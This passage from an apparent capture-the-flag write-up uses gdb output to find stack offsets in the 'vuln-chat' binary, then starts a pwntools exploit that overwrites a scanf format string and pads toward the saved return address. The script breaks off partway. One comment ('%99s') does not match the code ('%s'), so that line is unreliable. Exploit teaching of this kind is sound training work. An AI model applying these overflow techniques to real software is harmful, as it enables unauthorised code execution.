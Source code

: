 ```
Breakpoint 1, 0x08048639 in main ()
gef➤  search-pattern 75395128
[+] Searching '75395128' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a160 - 0x804a168  →   "75395128"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd03b - 0xffffd043  →   "75395128"
gef➤  search-pattern %30s
[+] Searching '%30s' in memory
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8048000-0x8049000), permission=r-x
  0x80485c1 - 0x80485c5  →   "%30s[...]"
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8049000-0x804a000), permission=rw-
  0x80495c1 - 0x80495c5  →   "%30s[...]"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd063 - 0xffffd067  →   "%30s"
gef➤  x/14x 0xffffd03b
0xffffd03b:    0x39333537    0x38323135    0xffd10400    0xffd10cff
0xffffd04b:    0xe076a5ff    0x33393531    0x38323735    0x04866b00
0xffffd05b:    0x00000008    0xfaf00000    0x73303325    0x00000000
0xffffd06b:    0xdefe8100    0x000001f7
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8048639 in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the format string is stored at `0xffffd063`, which is `20` bytes away from our name at `0xffffd04f`. Our second input begins at `0xffffd03b` which is `0x31` bytes away from the return address at `0xffffd06c`. Also one thing, the memory layout here probably looks a bit weird. The reason for this is `x86` is designed around `4` byte values (although it can handle a lot of different sizes for value types), so most addresses (with the except of variable length ones) are aligned to either `0x0`, `0x4`, `0x8`, or `0xc`. However our char array (which can be a wide array of values) starts at `0xffffd03b`, so it messes up the alignment when we view the memory using it as a reference.

Putting it all together, we get the following exploit:
```
from pwn import *

# Establish the target process
target = process('./vuln-chat')

# Print the initial text
print(target.recvuntil(b"username: "))

# Form the first payload to overwrite the scanf format string
payload0 = b""
payload0 += b"0"*0x14 # Fill up space to format string
payload0 += b"%s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print(target.recvuntil(b"I know I can trust you?"))

# From the second payload to overwrite the return address
payload1 = b""
payload1 += b"1"*0x31 # Filler space to return address
```